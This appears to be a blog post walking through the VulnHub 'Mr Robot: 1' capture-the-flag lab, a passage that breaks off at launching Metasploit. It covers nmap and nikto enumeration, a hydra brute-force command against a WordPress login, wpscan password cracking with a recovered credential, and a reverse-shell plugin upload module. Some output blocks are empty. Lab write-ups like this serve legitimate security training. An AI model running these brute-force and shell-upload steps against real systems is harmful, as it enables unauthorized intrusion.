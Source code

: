 ```yaml
---
layout: post
title: "Mr. Robot"
date: 2022-04-10 20:50:57 +0200
categories: jekyll update
---
```


# Mr Robot: 1

[[Mr-Robot: 1](https://www.vulnhub.com/entry/mr-robot-1,151/)] has 3 flags to find.

## Preparation

The virtual machines are placed onto the same isolated internal network where they can only communicate with each other.

On the isolated internal network, a VirtualBox DHCP server assigns IP addresses to the machines:

```cmd
vboxmanage dhcpserver add --network=intnet --server-ip=10.38.1.1 --lower-ip=10.38.1.110 --upper-ip=10.38.1.120 --netmask=255.255.255.0 --enable
```

The **Kali** machine received the IP address `10.38.1.110`.

Launching **Mr. Robot**, we're presented with a login screen that cannot be bypassed as the login credentials aren't known.

## Enumeration

**Nmap** can be used to discover the vulnerable machine on the network:

```sh
kali@kali$ nmap -sS -T4 10.38.1.110-120
```

```

```

**Nmap** found the vulnerable machine and reported it with the IP address `10.38.1.111` and with TCP ports `80` (http) and `443` (https) open.

Looking up `10.38.1.111` in a web browser, we're presented with the clone of the promotion website of the Mr. Robot TV series.

## 1st Flag

**Nikto** can be used to gather further information about the web server.

```

```

1. The server leaks inodes via ETags and a header has been found with file **/robots.txt**

```

```

2. The server is running **Wordpress**

```

```

> Note<br>
> A [robots.txt](https://developers.google.com/search/docs/advanced/robots/intro) file tells search engine crawlers which URLs the crawler can access on your site.
> This is used mainly to avoid overloading your site with requests; it is not a mechanism for keeping a web page out of Google.

**robots.txt** indicates that the server doesn't have an user agent but it has two files:

- fsocity.dic
- key-1-of-3.txt

**wget** can be used to download the files:

```sh
kali@kali$ wget 10.38.1.111/fsocity.dic
kali@kali$ wget 10.38.1.111/key-1-of-3.txt
```

```sh
kali@kali$ cat key-1-of-3.txt

```

## 2nd Flag

As SSL isn't enabled on the Wordpress login page, it may be bruteforced with the downloaded dictionary file.

`fsocity.dic` contains duplicated entries that should be removed.

```sh
kali@kali$ cat fsocity.dic | sort -u | uniq > wordlist.dic
```

The word count of the dictionary has decreased from `858160` to `11451`.

```
kali@kali$ wc -l fsocity.dic
858160 fsocity.dic
```

```
kali@kali$ wc -l wordlist.dic
11451 wordlist.dic
```

To start the bruteforce attack, we need to intercept an [http POST request](<https://en.wikipedia.org/wiki/POST_(HTTP)>) in [Burp Suite](https://portswigger.net/burp).

To do that, a manual proxy must be configured in the browser and Burp Suite should have the same Proxy Listener set:

- HTTP Proxy: `127.0.0.1`
- Port: `8080`

In the intercepted POST request - that has been sent to the server - we're looking for the `log`, `pwd`, and the `wp-submit` fields.

**hydra** can be used to guess the username:

```sh
kali@kali$ hydra -V -L fsocity.dic -p 123 10.38.1.111 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username'
```

- `-V` — Verbose
- `-L fsocity.dic` — Define dictionary
- `-p 123` — Random unique password
- `10.38.1.111` — IP of the vulnerable machine
- `http-post-form` — An http POST form is being bruteforced
- `/wp-login.php` — Path where the form is located
- `log=^USER^&pwd=^PASS&wp-submit=Log+In` — POST parameters to send, including placeholders
- `F=Invalid Username` — Consider an attempt as failure if the response contains the text "Invalid Username".

**hydra** has found 3 possible usernames:

```sh
[80][http-post-form] host: 10.38.1.111 login: elliot password: 123
[80][http-post-form] host: 10.38.1.111 login: Elliot password: 123
[80][http-post-form] host: 10.38.1.111 login: ELLIOT password: 123
```

**wpscan** can be used to find additional WordPress vulnerabilities and to bruteforce the password using the word list.

```sh
kali@kali$ wpscan --url 10.28.1.111 --passwords /home/kali/mrrobot/wordlist.dic --usernames Elliot
```

**wpscan** has found several outdated plugins and one valid username - password pair.

```sh
[+] performing password attach on Xmlrpc Multicall against 1 user/s
[SUCCESS] - Elliot - / ER28-0652
All Found
Progress Time: 00:00:19 <========================================================================

[!] Valid Combinations Found:
 | Username: Elliot, Password: ER28-0652
```

**Metasploit** [WordPress Admin Shell Upload](https://www.rapid7.com/db/modules/exploit/unix/webapp/wp_admin_shell_upload/) module creates a small WordPress plugin that connects back to the attacking machine and spawns a reverse shell.

```sh
kali@kali$ msfconsole
```
